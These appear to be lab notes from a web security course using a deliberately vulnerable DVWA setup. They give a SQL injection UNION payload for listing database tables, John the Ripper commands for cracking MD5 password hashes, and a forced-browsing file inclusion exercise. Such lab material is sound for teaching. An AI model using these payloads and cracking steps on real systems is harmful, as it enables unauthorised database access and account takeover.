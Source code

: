 Cracking passwords:
- Create a text file and on a single line, enter the User ID, followed by a colon, and then the hashed password.
![[Pasted image 20220710191705.png]]
- Save the file as passwd.txt and copy it to your Kali VM
---

In MySQL, there is a special database `information_schema` that contains a table called "tables" which holds information about the tables. We can use SQL injection to list out all the table names in all databases.

- Using SQL Injection
	- We can get the list of all the tables and the databases they are in (schema)
```SQL
ppp' OR '0' = '0' UNION SELECT table_schema, table_name FROM information_schema.tables # 
```

### John The Ripper
> There are multiple resources for password cracking such as Hashcat and John The Ripper. For our example, we will be using `John The Ripper`

**Kali VM**
- With the use of John the Ripper, a password cracking program. We can try to crack the hashed passwords in your passwd.txt file.
	- If John the Ripper does not seem to return any results, press Control-C to stop the program.
```linux
sudo john passwd.txt
```
- Try running John the Ripper with the various suggested formats. (Hint : try the raw-md5 format).
```linux
sudo john --format=raw-md5 passwd.txt
```
![[Pasted image 20220710192220.png]]


## Forced Browsing
In Forced Browsing vulnerabilites, by changing the URL, you can see the web content that you are not supposed to view.

---
**Win10 VM**
- Click on File Inclusion and ensure that the Security Level is Low.
- Click on **file1.php**. Note that the URL looks like the following :
```linux
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=file1.php
```
- Click on **file2.php**. Note that the URL looks like the following :
```linux
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=file2.php
```
- Click on **file3.php**. Note that the URL looks like the following :
```linux
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=file3.php
```
- Is there a file4.php? Change the URL to the following the find the "hidden" file4.php
```linux
http://Win10-IP/dvwa-master/vulnerabilities/fi/?page=file4.php
```
